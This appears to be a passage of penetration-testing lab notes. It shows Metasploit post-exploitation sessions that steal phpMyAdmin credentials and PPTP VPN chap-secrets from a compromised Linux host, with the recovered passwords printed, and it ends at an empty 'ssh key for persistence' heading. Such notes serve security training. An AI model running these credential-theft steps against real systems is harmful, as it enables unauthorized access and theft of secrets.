 ## Phpmyadmin creds 

https://www.rapid7.com/db/modules/post/linux/gather/phpmyadmin_credsteal/

> This module gathers Phpmyadmin creds from target linux machine. 

```
msf5 post(linux/gather/phpmyadmin_credsteal) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/phpmyadmin_credsteal) > run

[!] SESSION may not be compatible with this module.

PhpMyAdmin Creds Stealer!

[+] PhpMyAdmin config found!
[+] Extracting creds
[+] User: root
[+] Password: N0tE@syT0Guess!!
[*] Storing credentials...
[+] Config file located at /root/.msf4/loot/20210502003438_default_192.209.15.3_phpmyadmin_conf_086956.txt
[*] Post module execution completed
```

## PPTP VPN enum

https://www.rapid7.com/db/modules/post/linux/gather/pptpd_chap_secrets/

> This module collects PPTP VPN information such as client, server, password, and IP from your target server's chap-secrets file. 

```
msf5 post(linux/gather/pptpd_chap_secrets) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/pptpd_chap_secrets) > run

[!] SESSION may not be compatible with this module.
PPTPd chap-secrets
==================

 Client  Server                Secret          IP
 ------  ------                ------          --
 jackie  attackdefense.com     HiddenNetwork   10.10.10.10
 ninja   pentesteracademy.com  LearningIsReal  216.146.39.125
 peter   underground.onion     ReallySecure!!  246.234.63.133

[+] Secrets stored in: /root/.msf4/loot/20210502003602_default_192.209.15.3_linux.chapsecret_225219.txt
[*] Post module execution completed
```

## Add ssh key for persistence
